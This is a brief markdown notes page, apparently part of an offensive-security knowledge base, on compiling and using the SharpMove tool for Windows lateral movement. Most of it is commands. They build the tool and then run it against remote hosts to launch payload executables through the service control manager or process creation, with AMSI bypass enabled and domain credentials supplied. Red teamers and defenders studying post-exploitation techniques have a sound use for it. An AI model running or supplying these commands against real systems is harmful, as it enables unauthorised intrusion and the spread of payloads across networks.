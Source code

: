```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - service-control-manager
  - offensive-tools
  - windows
---
```

# Binaries

TODO: Fill this info (refer to links)

## SharpMove

### Compile

Install a targeting pack from this [link](https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481).  Then compile `SharpMove`.

```
C:\> git clone https://github.com/0xthirteen/SharpMove.git

C:\> cd SharpMove

C:\SharpMove> dotnet build -c Release -p:TargetFrameworkVersion=v4.8.1
```

### Usage

```
SharpMove.exe action=scm computername=<computername>.<domain>.<tld> command="C:\remote\path\to\payloadsvc.exe" servicename=<ServiceSVC> amsi=true [username=<domain>\<username> password=<password>]
```

```
C:\> .\SharpMove.exe action=query computername=<computername>.<domain>.<tld> query="SELECT * from Win32_Process" username=<domain>\<username> password=<password>
```

```
C:\> .\SharpMove.exe action=create computername=remote.host.local command="C:\remote\path\to\payload.exe" amsi=true username=<domain>\<username> password=<password>
```

---
## References

- [SharpMove](https://github.com/0xthirteen/SharpMove)

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)